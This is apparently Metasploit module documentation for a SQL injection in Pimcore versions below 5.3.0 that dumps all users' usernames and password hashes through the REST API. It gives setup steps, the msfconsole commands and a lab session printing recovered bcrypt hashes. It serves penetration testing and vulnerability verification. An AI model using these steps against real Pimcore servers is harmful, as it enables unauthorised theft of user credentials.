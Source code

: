 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password in the format `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/sqli/oracle/pimcore_list_creds`
  4. Do: `set RHOSTS [IP]`
  5. Do: `set TARGETURI [URI]`
  6. Do: `set APIKEY [KEY]`
  7. Do: `run`
  8. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3

  ```
  msf5 > use auxiliary/sqli/oracle/pimcore_list_creds
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set rhosts 192.168.37.246
  rhosts => 192.168.37.246
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > run

  [+] Credentials obtained:
  [+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
  [+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
  [+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
  [*] Auxiliary module execution completed
  ```

